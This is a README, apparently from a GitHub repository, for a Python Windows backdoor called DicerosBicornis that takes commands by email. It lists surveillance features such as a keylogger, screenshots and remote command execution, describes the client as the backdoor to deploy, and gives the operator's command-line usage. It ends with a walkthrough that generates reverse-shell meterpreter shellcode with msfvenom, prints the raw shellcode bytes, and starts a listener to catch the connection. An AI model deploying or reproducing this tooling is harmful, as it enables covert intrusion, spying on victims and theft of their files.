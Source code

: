 DicerosBicornis
====

A stealthy Python based Windows backdoor that uses email as a command and control server.

Requirements
=====

* Python 2.x
* PyCrypto module
* WMI module
* Enum34 module
* Netifaces module
* pypiwin32 module

Features
=====

* Encrypted transportation messages (AES) + SHA256 hashing
* Generate computer unique id using system information/characteristics (SHA256 hash)
* Job IDs are random SHA256 hashes
* Retrieve system information
* Retrieve Geolocation information (City, Country, lat, long, etc..)
* Retrieve running processes/system services/system users/devices (hardware)
* Retrieve list of clients
* Execute system command
* Download files from client 
* Upload files to client
* Execute shellcode
* Take screenshot
* Lock client's screen 
* Keylogger
* Lock remote computer's screen
* Shutdown/Restart remote computer
* Log off current user
* Download file from the WEB
* Visit website
* Show message box to user
* Ability to change check-in time
* Ability to add jitter to check-in time to reduce predictability 

Setup
=====

For this to work you need:
- A mail account

Download/Installation
====

* https://sourceforge.net/projects/pywin32
* git clone https://github.com/maldevel/dicerosbicornis
* pip install -r requirements.txt

Contents
=====

- ```dicerosbicornis.py``` a script that's used to enumerate and issue commands to available clients
- ```client.py``` the actual backdoor to deploy

You're probably going to want to compile ```client.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile client.py using a 32bit Python installation**

Usage
=====
```
usage: dicerosbicornis.py [-h] [-v] [-id ID] [-jobid JOBID] [-list | -info]
                          [-cmd CMD | -visitwebsite URL | -message TEXT TITLE | -tasks | -services | -users | -devices | -download PATH | -download-fromurl URL | -upload SRC DST | -exec-shellcode FILE | -screenshot | -lock-screen | -shutdown | -restart | -logoff | -force-checkin | -start-keylogger | -stop-keylogger | -email-checkin CHECK | -jitter jit]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on a client

  -cmd CMD              Execute a system command
  -visitwebsite URL     Visit website
  -message TEXT TITLE   Show message to user
  -tasks                Retrieve running processes
  -services             Retrieve system services
  -users                Retrieve system users
  -devices              Retrieve devices(Hardware)
  -download PATH        Download a file from a clients system
  -download-fromurl URL
                        Download a file from the web
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -shutdown             Shutdown remote computer
  -restart              Restart remote computer
  -logoff               Log off current remote user
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger
  -email-checkin CHECK  Seconds to wait before checking for new commands
  -jitter jit           Percentage of Jitter
```

Shellcode Exec
=====

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python

No encoder or badchars specified, outputting raw payload
Payload size: 354 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11"
buf += "\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
buf += "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40"
buf += "\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57"
buf += "\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9"
buf += "\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0"
buf += "\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"
```

Get rid of everything except for the shellcode and stick it in a file:

```
$ cat shell.txt 
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```
run the console

```
 ./msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST x.x.x.x; run"
 ```
 